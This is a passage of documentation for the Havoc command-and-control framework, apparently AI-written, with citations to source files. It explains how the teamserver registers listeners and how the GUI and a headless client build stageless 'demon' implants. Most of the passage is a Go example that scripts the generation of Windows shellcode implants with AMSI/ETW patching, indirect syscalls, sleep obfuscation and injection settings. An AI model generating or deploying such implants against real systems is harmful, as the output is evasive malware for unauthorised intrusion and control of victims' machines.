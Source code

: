 When the teamserver acknowledges the listener, the reader loop updates `c.state.listeners`, so calling the `listeners` command or `snapshotListeners()` will show the new handler. 【F:teamserver/cmd/headless/headless.go†L252-L320】【F:teamserver/cmd/headless/headless.go†L666-L673】

> **Tip:** If you have a JSON template for the listener configuration, load it into the `info` map before sending. The server normalises booleans and host lists the same way it does for the GUI, so you only need to supply the keys you care about. 【F:teamserver/cmd/server/listener.go†L228-L333】

## Building demons (stageless payloads)

The payload dialog in the GUI submits a `Gate.Stageless` request that contains the agent type, listener name, architecture, output format, and JSON-encoded demon configuration. 【F:client/src/UserInterface/Dialogs/Payload.cc†L222-L248】 The dispatcher unmarshals this request, stitches the payload together, and replies with a base64-encoded artifact when the build succeeds. 【F:teamserver/cmd/server/dispatch.go†L821-L925】【F:teamserver/pkg/events/gate.go†L12-L27】

Headless automations can replicate `demon-create` by cloning the defaults from `defaultDemonBuildConfig()` and then invoking `sendPackage` with the assembled JSON payload. 【F:teamserver/cmd/headless/headless.go†L605-L770】 For example:

```go
cfg := defaultDemonBuildConfig()
cfg.Listener = "AS13_Listener"
cfg.Format = "Windows Shellcode"

config := map[string]any{
    "Sleep":             cfg.Sleep,
    "Jitter":            cfg.Jitter,
    "Indirect Syscall":  cfg.IndirectSyscall,
    "Stack Duplication": cfg.StackDuplication,
    "Sleep Technique":   cfg.SleepTechnique,
    "Sleep Jmp Gadget":  cfg.SleepJmpGadget,
    "Proxy Loading":     cfg.ProxyLoading,
    "Amsi/Etw Patch":    cfg.AmsiEtwPatch,
    "Injection": map[string]any{
        "Alloc":   cfg.InjectionAlloc,
        "Execute": cfg.InjectionExecute,
        "Spawn64": cfg.InjectionSpawn64,
        "Spawn32": cfg.InjectionSpawn32,
    },
}

configJSON, _ := json.Marshal(config)
pk := packager.Package{
    Head: packager.Head{
        Event:   packager.Type.Gate.Type,
        User:    client.username,
        Time:    time.Now().Format("02/01/2006 15:04:05"),
        OneTime: "true",
    },
    Body: packager.Body{
        SubEvent: packager.Type.Gate.Stageless,
        Info: map[string]any{
            "AgentType": "Demon",
            "Listener":  cfg.Listener,
            "Arch":      cfg.Arch,
            "Format":    cfg.Format,
            "Config":    string(configJSON),
        },
    },
}

if err := client.sendPackage(pk); err != nil {
    log.Fatal(err)
}
```
